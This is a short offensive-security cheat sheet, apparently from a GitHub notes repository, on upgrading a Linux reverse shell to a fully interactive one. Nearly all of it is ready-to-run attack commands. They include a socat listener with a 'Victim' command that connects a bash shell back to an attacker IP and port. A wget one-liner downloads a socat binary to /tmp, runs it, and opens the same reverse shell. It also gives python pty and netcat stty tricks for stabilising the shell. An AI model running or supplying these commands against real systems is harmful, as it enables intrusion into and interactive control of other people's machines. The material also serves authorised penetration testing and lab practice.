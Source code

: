 # Upgrade a RevShell Linux

## With python
```bash
python -c 'import pty; pty.spawn("/bin/sh")' 
```

## With Socat
    
```bash
#Listener:
socat file:`tty`,raw,echo=0 tcp-listen:<port>

#Victim:
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:<ip>:<port>
```

[If Socat isn't installed stdn binaries](https://github.com/andrew-d/static-binaries)
```bash
wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O /tmp/socat; chmod +x /tmp/socat; /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:<ip>:<port>

```

## With Netcat w/ magic
```bash
# In reverse shell
$ python -c 'import pty; pty.spawn("/bin/bash")'
Ctrl-Z

# In Kali
$ stty raw -echo
$ fg

# In reverse shell
$ reset
$ export SHELL=bash
$ export TERM=xterm-256color
$ stty rows <num> columns <cols>
```
